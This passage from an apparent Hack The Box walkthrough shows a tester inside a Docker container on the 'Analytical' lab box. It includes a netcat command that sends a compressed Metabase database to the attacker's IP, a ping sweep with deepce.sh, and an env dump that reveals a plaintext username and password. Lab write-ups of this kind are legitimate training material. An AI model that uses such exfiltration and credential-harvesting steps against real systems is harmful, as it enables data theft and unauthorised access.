 
```bash
tar czf /tmp/compressed.tar.gz metabase.db
receive file: nc -l -p 12344 > metabase.tar.gz
send file: nc 10.10.16.75 12344 < compressed.tar.gz
```

I tryied to read them but seems to be not valid normal db files readble with mysql, postgres or sqlite3.

I tried to search some info by running strings on binaries files.

```bash
strings metabase.db.mv.db
```

but i got no useful hints from there.

that dbs seeems useless.

We're inside a docker container and we can notice it doing an `ls -la /` and noticing the presence of `.dockernv` file.

We might be in a docker container evasion box so I used `deepce.sh` for enumeration.


```
[+] Attempting ping sweep of 172.17.0.2/24 (ping) 
172.17.0.2 is Up                                  
172.17.0.1 is Up    
```

curling 172.17.0.2 i understood that is `analytical.htb`

Nothins useful :(

But then I remembered that we're in a docker container so there might be some useful info saved as environment variables.

Atually, run scripts such as `lse.sh` already gives info about enc content, but i did not take attention enough.

The content of `env` is the follwing.

```
env                       
SHELL=/bin/sh    
MB_DB_PASS=            
HOSTNAME=837e7831da92      
LANGUAGE=en_US:en                   
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/tmp
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
```